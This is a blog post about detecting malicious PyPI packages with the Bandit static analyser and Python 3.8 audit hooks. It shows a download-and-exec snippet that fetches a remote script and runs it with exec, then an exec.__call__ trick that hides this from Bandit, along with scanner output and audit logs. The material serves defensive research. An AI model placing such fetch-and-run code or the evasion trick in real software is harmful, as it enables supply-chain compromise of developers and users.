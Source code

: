 ```yaml
---
layout: post
title:  "Using Python Bandit to find dodgy packages"
date:   2020-01-11 12:00:00 +0000
categories: python codereview
---
```


# Overview
[Myself](https://www.youtube.com/watch?v=V1_mg5cZsd8) and [plenty](https://medium.com/@bertusk/detecting-cyber-attacks-in-the-python-package-index-pypi-61ab2b585c67) of [others](https://snyk.io/blog/malicious-packages-found-to-be-typo-squatting-in-pypi/) have spoken about the increasing amount of
malicious packages masquarading as legitimate in Python's PyPi package repository. These packages end up as dependecies to legitimate programs, compromising developers and end users.

A common pattern in these packages is to download a 2nd stage script from the web, then passing it into `eval` or `exec` to execute the 2nd stage, for example:
```python

import urllib.request
script = urllib.request.urlopen("https://gist.githubusercontent.com/pathtofile/0e26c9a82c08c4da44f5d2c32db85005/raw").read()
exec(script)   # script == "print('gotem')"
```

# Detection
One way to detect this type of attack to scan packages using [PyCQA's Bandit](https://github.com/PyCQA/bandit). This is a static analysis tool, and can be used to scan projects and files to security issues. One of the issues it can scan for it `B307 - use of exec`. Running it over a file containing the above snipped produces the following output
```bash
$> bandit suspicious.py
[main]  INFO    profile include tests: None
[main]  INFO    profile exclude tests: None
[main]  INFO    cli include tests: None
[main]  INFO    cli exclude tests: None
[main]  INFO    running on Python 3.8.0
[node_visitor]  INFO    Unable to find qualified name for module: suspicious.py
Run started:2020-01-12 09:32:50.575932

Test results:
>> Issue: [B310:blacklist] Audit url open for permitted schemes. Allowing use of file:/ or custom schemes is often unexpected.
   Severity: Medium   Confidence: High
   Location: suspicious.py:2
   More Info: https://bandit.readthedocs.io/en/latest/blacklists/blacklist_calls.html#b310-urllib-urlopen
1       import urllib.request
2       script = urllib.request.urlopen("https://gist.githubusercontent.com/pathtofile/0e26c9a82c08c4da44f5d2c32db85005/raw").read()
3       exec(script)   # prints 'gotem'

--------------------------------------------------
>> Issue: [B102:exec_used] Use of exec detected.
   Severity: Medium   Confidence: High
   Location: suspicious.py:3
   More Info: https://bandit.readthedocs.io/en/latest/plugins/b102_exec_used.html
2       script = urllib.request.urlopen("https://gist.githubusercontent.com/pathtofile/0e26c9a82c08c4da44f5d2c32db85005/raw").read()
3       exec(script)   # prints 'gotem'

--------------------------------------------------

Code scanned:
        Total lines of code: 3
        Total lines skipped (#nosec): 0

Run metrics:
        Total issues (by severity):
                Undefined: 0.0
                Low: 0.0
                Medium: 2.0
                High: 0.0
        Total issues (by confidence):
                Undefined: 0.0
                Low: 0.0
                Medium: 0.0
                High: 2.0
Files skipped (0):
```

We can see it picked up on two things:
1. The use of `urllib.request.urlopen` to get data from the internet
2. The use of `exec`

Both of these things might be legitimate: If you use a tool such as my [Bandit Scan](https://github.com/pathtofile/Bandit-Scan) to scan PyPi,
you'll quickly see that plenty of legitimate packages use for `urlopen` and `exec` all the time.

Bandit does have a very useful `--baseline` option, that enables you compare a package to a "trusted good" version.
This enables developers to scan for any changes to dependecies, and only investigate if this change, drastically reducing the noise.

# Evasion
Bandit does currently suffer from one flaw however. If we instead change our dodgy code to:
```python
sneaky = 'import urllib.request; script = urllib.request.urlopen("https://gist.githubusercontent.com/pathtofile/0e26c9a82c08c4da44f5d2c32db85005/raw").read(); exec(script)'
exec.__call__(sneaky)
```

And run bandit again, we get:
```bash
$>bandit suspicious_sneaky.py
[main]  INFO    profile include tests: None
[main]  INFO    profile exclude tests: None
[main]  INFO    cli include tests: None
[main]  INFO    cli exclude tests: None
[main]  INFO    running on Python 3.8.0
[node_visitor]  INFO    Unable to find qualified name for module: suspicious_sneaky.py
Run started:2020-01-12 09:34:24.153035

Test results:
        No issues identified.

Code scanned:
        Total lines of code: 2
        Total lines skipped (#nosec): 0

Run metrics:
        Total issues (by severity):
                Undefined: 0.0
                Low: 0.0
                Medium: 0.0
                High: 0.0
        Total issues (by confidence):
                Undefined: 0.0
                Low: 0.0
                Medium: 0.0
                High: 0.0
Files skipped (0):
```

Our code is now listed as benign by Bandit.
This is due to Bandit only looking for direct uses of the `exec` function, and not us calling the function's internal
`__call__` function (which effectively does the same thing).

I currently have a [pull request](https://github.com/PyCQA/bandit/pull/552) to fix this, but in the meantime, which will also flag any other uses of `__call__`,
as this is not usual to do.

# Python 3.8 Audit Hooks
On top of static analysis, using Python 3.8's audit hooks to analyse code as it runs would also surface the dodgy behaviour.

If you subscribe the python audit hook, such as using my [PyAuditLogger](https://github.com/pathtofile/pyauditlogger),
and run the `suspicious_sneaky.py` file, you will get (amungst other things) these events:
```xml
<EventData>
  <Data>PID: 15744</Data> 
  <Data>Commandline: D:\code\venvs\pyhooklogger\Scripts\python.exe suspicious_sneaky.py</Data> 
  <Data>Event: compile</Data> 
  <Data>b'print("gotem")'</Data> 
  <Data>'<string>'</Data> 
</EventData>

<EventData>
  <Data>PID: 15744</Data> 
  <Data>Commandline: D:\code\venvs\pyhooklogger\Scripts\python.exe suspicious_sneaky.py</Data> 
  <Data>Event: socket.connect</Data> 
  <Data><socket.socket fd=832, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0></Data> 
  <Data>('151.101.64.133', 443)</Data> 
</EventData>

<EventData>
  <Data>PID: 15744</Data> 
  <Data>Commandline: D:\code\venvs\pyhooklogger\Scripts\python.exe suspicious_sneaky.py</Data> 
  <Data>Event: socket.getaddrinfo</Data> 
  <Data>'gist.githubusercontent.com'</Data> 
  <Data>443</Data> 
  <Data>0</Data> 
  <Data>1</Data> 
  <Data>0</Data> 
</EventData>
```

Highlighting in plain-view we connected to `gist.githubusercontent.com`, got some data from it, and eventually ran `print("gotem")`.
The downside to the Audit hooks is again fiding the interesting things in the sheer volume of data.
But only looking at the `compile`, `socket`, and `exec` events could be a good place to start, especially if events going into a SIEM.

# Conclusion
By combining dynamic and static code analysis, we stand a good chance of detecting suspicious beheaviour in Python Packages.
But there is a real and ongoing challenge of finding the dodgy-needle in the haystack that is millions of packages across PyPi.
